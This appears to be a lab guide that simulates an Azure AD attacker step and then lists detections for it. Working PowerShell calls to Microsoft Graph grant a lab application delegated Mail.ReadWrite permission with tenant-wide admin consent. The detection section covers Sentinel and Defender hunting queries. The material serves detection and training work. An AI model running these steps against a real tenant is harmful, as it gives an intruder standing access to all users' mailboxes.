




# Grant Delegated Permissions to Applications

After a threat actor gets access to a cloud environment, usually the next step would be to look for additional access to other resources of interest. One way to access resources in Azure is via OAuth applications; especially those with privileged permissions. In a few cases, a threat actor would also grant desired permissions to existing applications.

[The Microsoft identity platform supports two types of permissions: delegated permissions and application permissions](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-permissions-and-consent):

* **Delegated permissions** are used by apps that have a signed-in user present. These permissions are of type “Scope” and delegate privileges of the signed-in user, allowing the app to act as the user. For example, if an application contains the “Mail.Read” delegated permissions and a user requests it; the app would only be able to access the signed-in user mailbox.
* **Application permissions** are used by apps that run without a signed-in user present. These permissions are of type “Role” and grant the app the full set of privileges offered by the scope. For example, if an application contains the `Mail.Read` role permissions, the application would have access to every user’s mailbox.

In this document, we are going to simulate an adversary granting delegated `Mail.ReadWrite` permissions to an existing OAuth application. You can use this document to grant other permissions to an application.

## Simulate & Detect
1.	[Enumerate Existing Applications and Service Principals](#enumerate-existing-applications-and-service-principals)
2.	[Grant Delegated Permissions to Application](#grant-delegated-permissions-oauth2permissions)
    * [Detect Permissions Granted to Applications](#detect-permissions-granted-to-applications)

## Preconditiona

* Endpoint: AD FS Server (ADFS01)
    * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [got a Microsoft Graph access token](getAccessTokenSAMLBearerAssertionFlow.md).
    * Microsoft Graph Access Token
        * Use the output from the previous step as the variable `$MSGraphAccessToken`. Make sure the access token is from the `Azure Active Directory PowerShell Application`. That application has the right permissions to execute all the simulation steps.



## Enumerate Existing Applications and Service Principals

### List Azure AD Applications

**Preconditions**
* Authorization:
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions (One of the following):
        * Application.Read.All
        * Application.ReadWrite.All
        * Directory.Read.All
* A Microsoft Graph access token

Open PowerShell as administrator and use the existing Microsoft Graph access token to list the current Azure AD applications in a tenant.

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
  "Method"  = "Get"
  "Uri"     = "https://graph.microsoft.com/v1.0/applications”
  "Headers" = $headers
}
$AzADApps = Invoke-RestMethod @params
$AzADApps
$AzADApps.value
```



Next, filter the results and select the Azure AD application that was created for this lab environment. If you followed the instructions to [register one Azure AD application](../../2_deploy/_helper_docs/registerAADAppAndSP.md) after deploying the lab environment, your app should be named `SimuLandApp`. If you used a different name, make sure you look for it with the right name in t he following PowerShell command:

```PowerShell
$Application = $AzADApps.value | Where-Object {$_.displayName -eq "SimuLandApp"}
```

Use the `$Application` variable for the next steps.

## Grant Delegated Permissions (OAuth2Permissions)

Once again, `Application/Role` permissions allow an application to act as its own entity in Azure AD. However, `Delegated` permissions allow an application to perform actions on behalf of the signed-in user using the application. The process to grant delegated permissions to an application is very similar to the one to grant `Application/Role` permissions.

### Update Azure AD Application Required Permissions (OAuth2Permissions)

**Preconditions**
* Authorization:
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions (One of the following):
        * Application.Read.All
        * Application.ReadWrite.All
        * Directory.Read.All
        * Directory.ReadWrite.All
* A Microsoft Graph access token

In the same PowerShell session, get the `Microsoft Graph` service principal object to retrieve the specific IDs of the permissions we want to add to an application. We also need to filter on the right permission type (`Delegated` or `AppRole`).

```PowerShell
$resourceSpDisplayName = 'Microsoft Graph'

$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method" = "Get"
    "Uri" = "https://graph.microsoft.com/v1.0/servicePrincipals?`$filter=displayName eq '$resourceSpDisplayName'"
    "Headers" = $headers
}
$ResourceResults = Invoke-RestMethod @params
$ResourceSvcPrincipal = $ResourceResults.value[0]
if ($ResourceResults.value.Count -ne 1) {
    Write-Error "Found $($ResourceResults.value.Count) service principals with displayName '$($resourceSpDisplayName)'"
}
$ResourceSvcPrincipal
```


Retrieve Role Assignments from Microsoft Graph object and create `Resource Access Items` to then generate a `Required Resources Access` object. The `Required Resource Access object` contains the required permissions that will be assigned to the Azure AD application.

For this example, if we want to add the `delegated` Microsoft Graph `Mail.ReadWrite` permission to an application, we would use the PropertyType `oauth2PermissionScopes` and ResourceAccessType `Scope` from the Microsoft Graph service principal object.

```PowerShell
$PropertyType = 'oauth2PermissionScopes'
$ResourceAccessType = 'Scope'
$permissions = @(‘Mail.ReadWrite’)

$ResourceAccessItems = @()
Foreach ($AppPermission in $permissions) {
    $RoleAssignment = $ResourceSvcPrincipal.$PropertyType | Where-Object { $_.Value -eq $AppPermission }
    $ResourceAccessItem = [PSCustomObject]@{
        "id" = $RoleAssignment.id
        "type" = $ResourceAccessType
    }
    $ResourceAccessItems += $ResourceAccessItem
}
$ResourceAccessItems
```

As you can see in the image below, the type of resource access item is `Scope`. That is an indicator that we are working with delegated permissions.


Before we update the permissions of an application, we need to verify if permissions have been assigned to the application yet.

* Reference: [https://github.com/TheCloudScout/devops-auto-key-rotation/blob/main/scripts/Set-addApplicationOwner.ps1](https://github.com/TheCloudScout/devops-auto-key-rotation/blob/main/scripts/Set-addApplicationOwner.ps1)

```PowerShell
if ($resourceAccess = ($Application.requiredResourceAccess | Where-Object -FilterScript { $_.resourceAppId -eq $ResourceSvcPrincipal.appId })) {
    Foreach ($item in $ResourceAccessItems) {
        if ($null -eq ($resourceAccess.resourceAccess | Where-Object -FilterScript { $_.type -eq "$ResourceAccessType" -and $_.id -eq $item.id })) {
            $Application.requiredResourceAccess[$Application.requiredResourceAccess.resourceAppId.IndexOf($ResourceSvcPrincipal.appId)].resourceAccess += $item
         }
    }
}
else {
    $RequiredResourceAccess = [PSCustomObject]@{
        "resourceAppId" = $ResourceSvcPrincipal.appId
        "resourceAccess" = $ResourceAccessItems
    }
    # Update/Assign application permissions
    $Application.requiredResourceAccess += $RequiredResourceAccess
}
$Application.requiredResourceAccess
```

As you can see in the image below, the new permission has been added to the local Azure AD Application object required permissions attribute. We can pass the required permissions attribute values to another API and update the required permissions of the Azure AD application.



Retrieve a few attributes from the local Azure AD application object including the required permissions property. Use the applications Microsoft Graph API to patch the application in Azure AD.

```powerShell
$AppBody = $Application | Select-Object -Property "id", "appId", "displayName", "identifierUris", "requiredResourceAccess"
$headers = @{
  "Authorization" = "Bearer $MSGraphAccessToken"
  "Content-Type" = "application/json"
}
$params = @{
    "Method" = "Patch"
    "Uri" = "https://graph.microsoft.com/v1.0/applications/$($AppBody.id)"
    "Body" = $AppBody | ConvertTo-Json -Compress -Depth 99
    "Headers" = $headers
}
$updatedApplication = Invoke-WebRequest @params -usebasicparsing
if ($updatedApplication.StatusCode -eq 204) {
    return "Required permissions were assigned successfully"
}
```


If you go to the [Azure Portal](https://portal.azure.com/) > Azure AD > App Registrations > `SimuLandApp` > API Permissions, you will see the additional permission added to the application.

### Get AD Service Principals of Applications

**Preconditions**
* Authorization:
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions (One of the following):
        * Application.Read.All
        * Application.ReadWrite.All
        * Directory.Read.All
        * Directory.ReadWrite.All
* A Microsoft Graph access token

Next, in order to grant permissions to the application, we need to do it at the service principal level. We can take the application Id value from our previous steps and get its service principal.

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = "https://graph.microsoft.com/v1.0/servicePrincipals?`$filter=appId eq '$($Application.appId)'"
    "Headers" = $headers
}
$AzADAppSp = Invoke-RestMethod @params
$AzADAppSp.value | Format-List
```
 


Now that we have the service principal of the application, we can start granting permissions to the Azure AD Application.

### Grant Delegated Permissions (oauth2PermissionScopes)

**Preconditions**
* Authorization:
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions (One of the following):
        * AppRoleAssignment.ReadWrite.All
        * Directory.ReadWrite.All
* A Microsoft Graph access token

Define initial variables as shown below.

```PowerShell
$ServicePrincipalId = $AzADAppSp.value[0].id
$resourceSpDisplayName = 'Microsoft Graph'
$PropertyType =  'oauth2PermissionScopes'
$permissions = @('Mail.ReadWrite')
```

Get Microsoft Graph Service Principal object to retrieve permissions references from it.

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
  "Method" = "Get"
  "Uri" = "https://graph.microsoft.com/v1.0/servicePrincipals?`$filter=displayName eq '$resourceSpDisplayName'"
  "Headers" = $headers
}
$ResourceSvcPrincipal = Invoke-RestMethod @params
if ($ResourceSvcPrincipal.value.Count -ne 1) {
  Write-Error "Found $($ResourceSvcPrincipal.value.Count) service principals with displayName '$($resourceSpDisplayName)'"
}
$ResourceSvcPrincipal.value | Format-List
```


 

Grant permissions with `oauth2PermissionGrants` API.

```PowerShell
$body = @{
  clientId = $ServicePrincipalId
  consentType = "AllPrincipals"
  principalId = $null
  resourceId = $ResourceSvcPrincipal.value[0].id
  scope = "$permissions"
  startTime = "$((get-date).ToString("yyyy-MM-ddTHH:mm:ss:ffZ"))"
  expiryTime = "$((get-date).AddYears(1).ToString("yyyy-MM-ddTHH:mm:ss:ffZ"))"
}

$headers = @{
  "Authorization" = "Bearer $MSGraphAccessToken"
  "Content-Type" = "application/json"
}
$params = @{
  "Method" = "Post"
  "Uri" = "https://graph.microsoft.com/v1.0/oauth2PermissionGrants"
  "Body" = $body | ConvertTo-Json –Compress
  "Headers" = $headers
}
Invoke-RestMethod @params
```

If you get an `(409) Conflict` error message, it could be because you already granted consent to other permissions already assigned to the application. 

## Detect Permissions Granted to Applications

### Azure Sentinel Detection Rules

* [Mail.Read Permissions Granted to Application (AuditLogs)](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/MailPermissionsAddedToApplication.yaml)

### Microsoft 365 Hunting Queries

* [Mail.Read or Mail.ReadWrite permissions added to OAuth application CloudAppEvents](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Defense%20evasion/MailPermissionsAddedToApplication%5BNobelium%5D.md)

### Azure AD Workbook: Sensitive Operations Report
1.	Browse to [Azure portal](https://portal.azure.com/)
2.	Azure AD > Workbooks > Sensitive Operations Report



### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “Microsoft Cloud App Security”
3.	Connected Apps > Office 365 > Activity Logs


